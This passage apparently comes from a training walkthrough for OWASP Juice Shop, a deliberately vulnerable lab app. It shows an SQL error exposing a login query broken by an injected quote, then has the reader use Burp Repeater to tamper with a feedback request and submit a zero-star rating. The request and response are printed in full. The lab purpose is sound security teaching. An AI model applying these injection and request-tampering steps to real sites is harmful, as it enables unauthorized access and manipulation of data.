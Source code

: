 ```
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '3590cb8af0bbb9e78c343b52b93773c9'"
    },
    "sql": "SELECT * FROM Users WHERE email = ''' AND password = '3590cb8af0bbb9e78c343b52b93773c9'"
  }
}
```

- Now that we've leveraged Repeater to gain proof of concept that Juice Shop's login is vulnerable to SQLi, let's try something a little more mischievous and attempt to leave a devastating zero-star review. First, click on the drawer button in the top-left of the application. If this isn't present for you, just skip to the next question.
- Next, click on 'Customer Feedback' (depending on the version of Juice Shop this also might be along the top of the page next to 'Login' under 'Contact Us')
- With the Burp proxy on submit feedback. Once this is done, find the POST request in your HTTP History in Burp and send it to Repeater.
- What field do we have to modify in order to submit a zero-star review? [_rating_]
- Submit a zero-star review and complete this challenge in Juice Shop!

```
Request:

POST /api/Feedbacks/ HTTP/1.1
Host: 10.10.226.227
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 60
Origin: http://10.10.226.227
Connection: close
Referer: http://10.10.226.227/
Cookie: io=mGLS5iJ7wYcz5840AAAM; cookieconsent_status=dismiss; language=en; continueCode=qo61W2w2ZW6a3BeyxzDmjrPKlY5bAyD0LO4XpRqkJQ8VE7g1ovNMn9kZ9wrE

{"captchaId":2,"captcha":"-2","comment":"apples","rating":0}

Response:

HTTP/1.1 201 Created
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Location: /api/Feedbacks/9
Content-Type: application/json; charset=utf-8
Content-Length: 158
ETag: W/"9e-yUSEeZLnqjfl83U2RiKiHy1ycfg"
Date: Tue, 20 Jul 2021 21:14:18 GMT
Connection: close

{"status":"success","data":{"id":9,"comment":"apples","rating":0,"updatedAt":"2021-07-20T21:14:18.179Z","createdAt":"2021-07-20T21:14:18.179Z","UserId":null}}
```
